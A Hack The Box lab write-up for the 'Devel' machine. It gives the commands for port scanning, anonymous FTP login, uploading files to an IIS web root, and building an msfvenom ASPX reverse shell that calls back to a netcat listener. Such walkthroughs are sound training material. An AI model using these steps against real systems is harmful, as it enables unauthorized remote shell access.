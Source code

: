 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Devel write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

Recon:
Started the test out by running Rustscan to get the open ports. 
Command: rustscan -a 10.10.10.5
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/devel.jpg"></p>
|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.5 | 21 |
| Open | 10.10.10.5 | 80 |

PORT 21: 
Checked to see if FTP would allow for anonymous login
Command: ftp 10.10.10.5
Found that anonymous login was allowed 
I used the following creds anonymous:anonymous
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(6).jpg"></p>

PORT 80:
In FireFox I navigated to the page using the IP
I found the standard IIS7 page. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(7).jpg"></p>
USER SHELL:
Started by testing FTP and adding a test text file.
Command echo 'testing' > test.txt 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(5).jpg"></p>
while connected to the host via FTP I uploaded the file. 
Command: put test.txt. -> upload successful 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(8).jpg"></p>
I checked the web browser by going to 10.10.10.5/test.txt and found the file was showing in the browser. 

Once I knew that it was working I crafted a reverse shell using MSFvenom
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f aspx > reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(9).jpg"></p>
Again used the put command 
Command put reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(1).jpg"></p>
I started a netcat listener in a new console tab making sure I use the same port as my payload. 
Command nc -nlvp 4444
Went back to FireFox and changed /test.txt to /reverse.aspx and I was able to get a shell back. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(2).jpg"></p>